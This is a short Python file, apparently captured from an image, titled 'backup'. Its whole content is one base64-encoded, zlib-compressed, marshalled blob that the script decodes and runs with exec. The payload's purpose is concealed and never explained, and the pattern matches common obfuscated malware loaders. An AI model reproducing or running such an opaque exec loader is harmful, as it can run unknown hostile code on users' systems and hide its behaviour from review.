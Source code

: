 # backup
idk

import base64, zlib, marshal

code = b'eNqNk8Fq2zAQhf+K+ZJKnYYNjbVWggKNpWbbgSkKQlIJChKVUePLvddZmS+aNey93mTmH/L6Zx2UyWiU95yQG1SWEMqBGLFLjepKkAmGmU5KkWrpgAxSh7xv9I72gihkMvz3c9W6sJjA2h+RkQYAlm6dx1X+W0HdYTfbjQo3S9ZjW1BgspCB69sbOsFZCnpB+Hsq4RXhW7ej3+zmWknU0Ik4I6jHRZ+ykpZ/CgeUks6DWb+cK1HxjVihg+K9qjR+8M32lMcYz2a9RMPZ6DND6RxPN+egzivJZVXMcwKa0UC2YcJzrsOAxRYcqxHivpyJW0j1f+G5uKNbNuA9V1V+p/NnXRddm23uq+a5Xs43Xotznn7fD5UO3Huvz/NzMX2vT0I2phj9bMe3Eolcyuop0w5FJUTpBNux2erUlb7QO6vgcf5KxwS3gH8NeH8efqPfb8fw0xDi4='

exec(marshal.loads(zlib.decompress(base64.b64decode(code))))

